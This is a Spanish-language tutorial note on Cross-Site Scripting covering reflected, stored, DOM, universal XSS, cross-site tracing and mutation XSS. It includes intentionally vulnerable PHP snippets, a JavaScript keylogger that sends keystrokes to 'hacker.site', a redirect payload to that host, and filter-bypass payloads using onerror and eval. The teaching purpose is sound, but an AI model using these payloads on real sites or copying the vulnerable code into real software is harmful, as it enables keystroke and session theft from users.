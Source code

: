 ```yaml
---
title: 'Cross-Site Scripting (XSS)'
description: ''
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
---
```


### Reflected XSS (server)

Ocurre cuando la data del usuario es enviada a la aplicación web y es inmediatamente repetida de vuelta al contenido no confiable

La victima trae la carga en su request a la página vulnerable,
esta carga se inserta en la webapp y el navegador lo executa.

```php
<?php $name = @$_GET['name']; ?>

Welcome <?=$name?>
```

### Stored or Persistent XSS (server)
La carga se ejecuta en todos los usuarios que visiten la página.
El código es guardado por la app, sin sanitizar y luego rendereado.

El código malicioso puede ser injectado, por los atacantes, directamente por la webapp.

```php

<?php
$file = 'newcomers.log';
if(@$_GET['name']) {
  $current = file_get_contents($file);
  $current .= $_GET['name']."\n";
  // almacena 'newcomer'
  file_put_contents($file, $current);
}
// si admin muestra 'newcomers'
if(@$_GET['admin'] == 1) {
  echo file_get_contents($file);
}
>

```

### DOM XSS | Type-0 | Local XSS (client)

Es dado cuando JavaScript usa los datos del usuario como parte de su lógica igual que *reflected* pero sin interactuar con el lado del navegador.

```php
# Toda la información del DOM esta disponible, URL, history, cookies, etc. 

# Hay dos llaves fundamentales: SOURCES y SINKS
<h1 id='welcome'></h1>
<script>
  var w = "Welcome";
  // location.hash -> SOURCE del input desconfiable
  var name = document.location.hash.substr(
    document.location.hash.search(/#w!/i) + 3,
    document.location.hash.length
  );
  // innerHTML -> SINK donde el input es usado
  document.getElementById('welcome').innerHTML = w + name;
</script>

# Sumideros(sinks) son como puntos en la corriente de agua donde dependiendode la fuente(input del usuario) puede ser peligroso resultando en la perdida de Confidencialidad, Integridad y Disponibilidad.
```

### Universal XSS | UXSS

No aprovecha las fallas de la "App" sino de las extensiones, plugins.

### Cross-Site Tracking (XST)

<script>
  // TRACE Request
  var xmlhttp = new XMLHttpRequest()
  var url = 'http://victim.site'
  xmlhttp.withCredentials = true
  xmlhttp.open('TRACE', url)

  // Callback para registrar todas las cabezeras de la respuesta
  function hand() {
    console.log(this.getAllResponseHeaders())
  }
  xmlhttp.onreadystatechange = hand
  xmlhttp.send()
  // Si todo va bien podemos leer las cabezeras de vuelta del request'TRACE', esta tecnica es antigua y los navegadores lo bloquean
</script>

### XSS Ataques

- Recoleccion de cookies
- Desfiguraciones
- Phishing
- Keylogging
- Ataques de Red
- Auto-XXS


**Desfiguraciones**

Con este ataque se intenta dar un mensaje preciso o información engañosa a los usuarios.

*Virtul:* Si explotamos un defecto que no modifique el contenido hosteado en la web objetivo, entonces es un desfiguracion virtual. Esto pasa en XSS Reflejado

*Persistente:* En este caso la página es modificada permanentemente, el atacante no necesita engañar a los usuarios para que visiten una URL creada.

**Phishing**

URLCrazy es una herramienta de linea de comandos que genera y prueba tipos de dominios y variaciones para detectar y realizar allanamiento de tipos, URL hijacking, phishing, y espionaje.

**keylogging**

```javascript
var keys=''
document.onkeypress = function(e) {
  var get = window.event ? event : e
  var key = get.keyCode ? get.keyCode : get.charCode
  key = String.fromCharCode(key)
  keys += key
}

window.setInterval(() => {
  if (keys !== '') {
    var path = encodeURI("http://hacker.site/keylogger?k="+keys)
    new Image().src = path
    keys = ''
  }
}, 1000)

```
Algunos frameworks:

- *http_javascript_keylogger (Metasploit)*
- *Event logger:* Es mas sofisticado

****

data:text/html,<script>document.location="http://hacker.site"</script>

javascript:{this.window='<script>document.location="https://google.com"</script>'}


### mXSS

Es un vector que ocurre en el innerHTML y esta relacionado con las propiedades del DOM

```html
<!-- input -->
<p>Hi
<p/id=pID>Hi
<?Hi
<DiV/><doce///>Hi</plaintext><h1>high

<!-- Output -->
<p>Hi</p>
<p/id=pID>Hi</p>
<!-- Hi -->
<div><code>Hi<h1>high</h1></code></div>

<!--  -->
<!--  -->
<div><&lt;img src=1 onerror=alert(1)&gt;</div>

<!--  -->
<img srtle="font-fa\22onerror\3d\61lert\28\31\29\20mily:'arial'"src="x:x" />

<!--  -->
<p style="font-family:'ar&quot;;x=expression(alert(1))\*ial'"></p>

<!--  -->
<p style ="font-family:'ar\27\3bx\3aexpression\28\61lert\28\31\29\3bial'"></p>

<!--  -->
<article xmlns="urn:img src=x onerror=xss()//">


<!-- Pasando parametros a funciones con el parentesis bloqueado -->

<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
<!-- onerror=alert;throw 1; -->

<img src='x' onerror="window.onerror=eval;throw'\u003d&#x0061;&#x006C;ert&#x0028;1&#41;'">


```


